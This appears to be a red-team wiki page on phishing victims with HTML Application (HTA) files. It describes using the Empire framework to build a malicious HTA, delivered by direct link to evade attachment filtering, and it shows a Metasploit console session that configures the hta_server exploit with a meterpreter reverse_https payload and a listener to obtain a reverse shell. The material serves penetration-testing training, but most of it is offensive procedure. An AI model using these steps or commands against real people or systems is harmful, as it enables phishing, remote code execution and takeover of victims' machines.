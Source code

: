 # ⭕ HTA

{% embed url="http://blog.sevagas.com/?Hacking-around-HTA-files=" %}

An HTML Application (HTA) is a Microsoft Windows program whose source consists of HTML, Dynamic HTML, and one or more scripting languages supported by Internet Explorer, such as VBScript or JScript.

In this example we will be assuming that attachments are not allowed in our Emails, so we will need to send a user a Direct link where we will bypass the email attachment and directly download our Binary(HTA), in the following we will use Empire Framework to create our malicious binary. This attack can also be considered an attachment but here an HTA file is being downloaded and executed.

Empire is a post-exploitation framework that includes a pure Powershell2.0 Windows agent, and a pure Python 2.6/2.7 Linux/OS X agent. It is the merge of the previous PowerShell Empire and Python EmPyre projects. Empire implements the ability to run Powershell agents without the need of powershell.exe, rapidly deployable post-exploitation modules from keyloggers to evade network detection PowerShell premiered at BSides in 2015.

## <mark style="color:red;">Examples</mark>

We can create Macros, HTA files and OLE Objects for phishing (this example will contain a HTA phishing style and there will be links for reference) we can start Empire from our Linux box and use the following steps \[Remember this is the most basic attack so it will get detected].

`At the time of writing I was using Empire 2.5 there is a newer version 3.0, major updates but procedure is similar`

We execute Empire :&#x20;

![](<../../.gitbook/assets/image (18) (1) (1).png>)

We will need to setup a listener that will listen for our connection once executed on the victim

![](<../../.gitbook/assets/image (40).png>)

We proceed to execute

![](<../../.gitbook/assets/image (16).png>)

We will setup our listener and an OutFile to send to our victim

![](<../../.gitbook/assets/image (3).png>)

Execute again to create our payload, make sure to add the extension to it or Empire will create a file not functional for our attack.

![](<../../.gitbook/assets/image (10).png>)

Once here it's up to creativity on how to send this file I will continue with this just for DEMO purposes.

![](<../../.gitbook/assets/image (22) (1) (1).png>)

after execution, when get a reverse shell.

## <mark style="color:red;">Metasploit HTA Server</mark>

The Metasploit HTA Web Server exploit module hosts an HTA that when opened runs a payload via PowerShell.

To use, simply set the IP for the server, a custom URI, the payload you which to execute, and the IP of the listener:

```markup
root@kali:~# msfconsole -q
msf > use exploit/windows/misc/hta_server
msf exploit(windows/misc/hta_server) > set SRVHOST 192.168.216.5 
SRVHOST => 192.168.216.5
msf exploit(windows/misc/hta_server) > set URIPATH form
URIPATH => form
msf exploit(windows/misc/hta_server) > set PAYLOAD windows/meterpreter/reverse_https
PAYLOAD => windows/meterpreter/reverse_https
msf exploit(windows/misc/hta_server) > set LHOST 192.168.216.5 
LHOST => 192.168.216.5
msf exploit(windows/misc/hta_server) > exploit 
[*] Exploit running as background job 0.

[*] Started HTTPS reverse handler on https://192.168.216...Copy
```

## <mark style="color:red;">Other Tools</mark>

{% embed url="https://www.hackingarticles.in/windows-exploitation-mshta" %}
